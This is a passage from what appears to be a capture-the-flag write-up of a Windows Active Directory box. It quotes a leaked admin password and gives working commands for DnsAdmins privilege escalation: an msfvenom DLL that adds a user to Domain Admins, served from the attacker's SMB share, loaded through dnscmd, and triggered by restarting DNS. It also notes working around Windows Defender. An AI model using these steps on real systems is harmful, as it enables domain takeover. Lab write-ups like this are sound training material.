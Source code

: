 ```
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
```

A number of lines contain a password Serv3r4Admin4cc123! associated with the ryan user account.
We already know from ldapdomaindump that ryan is a member of Remote Management Users, so lets log in as ryan.
We also know that ryan is a member of DnsAdmins, meaning that ryan has access to the dnscmd command. We can use this to get root access by injecting a malicious dns.dll

Our dns.dll file will be run with admin privileges so we could use a reverse shell, however i found that this was not stable, perhaps due to windows defender. Another option is to add a user to the Domain Admins group. 
So lets use msfvenom to craft a malicious dns.dll that will add melanie to Domain Admins.

```bash
msfvenom -p windows/x64/exec CMD='net group "domain admins" melanie /add /domain' -f dll > dns.dll
```

Windows Defender removes the file if you transfer it to the local machine so we will have to host it on a SMB share.

```bash
smbserver.py -debug smb ./
```

Now as ryan we can run the following command to change the serverlevelplugindll to our malicious file.

```bash
dnscmd RESOLUTE /config /serverlevelplugindll \\10.10.14.35\\smb\\dns.dll 
```

Then we must restart dns for our code to be run.

```bash
sc.exe stop dns

sc.exe start dns
```

If all has gone well melanie should now be a member of the Domain Admins group. If we log back in as melanie we can read the root.txt flag

```
melanie: cat C:/Users/Administrator/Desktop/root.txt
```

